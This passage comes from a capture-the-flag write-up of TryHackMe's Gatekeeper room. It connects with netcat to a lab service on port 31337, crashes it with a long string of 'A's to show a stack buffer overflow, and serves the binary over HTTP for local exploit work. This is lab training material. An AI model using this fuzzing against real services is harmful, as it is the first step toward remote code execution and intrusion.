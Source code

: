 ```
Please send shorter lines.
Bye!
[!] recvbuf exhausted. Giving up.
Client disconnected.
recv() failed: %d.
Bytes received: %d
exit
Client requested exit.
Hello %s!!!
send failed: %d
Bytes sent: %d
```

**Looks like this executable is listening on port 31337, and we can send something to it!**

### Gatekeeper.exe on Port 31337

**Armed with the above information, let's `nc` into port 31337!**

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# nc -nv $RHOSTS 31337
(UNKNOWN) [10.10.192.183] 31337 (?) open
test
Hello test!!!                                                                                              
```

**In here, when I type something like `test`, it'll repeat: `Hello <our_input>`.**

**What if I type too many stuff that overflow the stack memory?**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# python3 -c "print('A'*100)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!!!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```

It crashed!

**Now, let's transfer this execuable to our Windows virtual machine for exploiting buffer overflow locally.**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
